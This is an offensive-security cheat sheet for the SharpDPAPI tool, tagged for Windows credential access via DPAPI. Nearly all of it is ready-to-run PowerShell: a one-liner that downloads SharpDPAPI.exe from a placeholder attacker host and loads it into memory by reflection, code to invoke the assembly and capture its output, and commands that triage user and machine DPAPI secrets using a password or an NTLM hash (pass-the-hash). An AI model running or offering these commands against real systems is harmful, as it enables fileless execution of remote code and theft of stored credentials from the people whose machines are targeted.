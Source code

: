# SharpDPAPI

% SharpDPAPI, dpapi
#plateform/windows  #target/local   #cat/CREDENTIAL-ACCESS/DPAPI 

## bin - download into memory
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/windows/NetFramework_4.7_x64/SharpDPAPI.exe'); $asm = [System.Reflection.Assembly]::Load($data); 
```
## assembly reflection - cmd
```powershell
$params="<cmd>".split(" ");$OldConsoleOut = [Console]::Out; $StringWriter = New-Object IO.StringWriter ; [Console]::SetOut($StringWriter) ; $asm.EntryPoint.Invoke($null, [Object[]] @(@(,($params))));[Console]::SetOut($OldConsoleOut); $Results = $StringWriter.ToString(); $Results
```

## ps1 - cmd
```powershell
Invoke-SharpDPAPI "<cmd>"
```

## bin - user triage (creds)
```powershell
SharpDPAPI.exe triage /password:<password>
```

## bin - user triage (pth)
```powershell
SharpDPAPI.exe triage /ntlm:<nt_hash>
```

## bin - machine triage (creds)
```powershell
SharpDPAPI.exe machinetriage /password:<password>
```

## bin - machine triage (pth)
```powershell
SharpDPAPI.exe machinetriage /ntlm:<nt_hash>
```

